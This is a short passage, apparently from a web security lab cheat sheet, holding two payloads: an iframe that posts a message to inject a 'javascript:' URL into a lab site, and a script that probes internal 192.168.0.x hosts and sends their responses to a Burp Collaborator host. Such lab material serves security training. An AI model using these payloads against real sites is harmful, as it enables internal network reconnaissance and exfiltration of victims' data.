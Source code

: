 ```html
<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
### IP brute forcing (internal IP)
```html
<script>
const BURP_HOST = '5qwkaad5lhyov1p42rppclhwnntdh2.oastify.com'
for (let i = 0; i < 256; i++) {
  fetch(`http://192.168.0.${i}:8080`)
  .then(res => { res.text().then(text => {
    fetch(`http://${BURP_HOST}?q=${i}&body=${encodeURIComponent(text)}`)
  })})
}
</script>
```
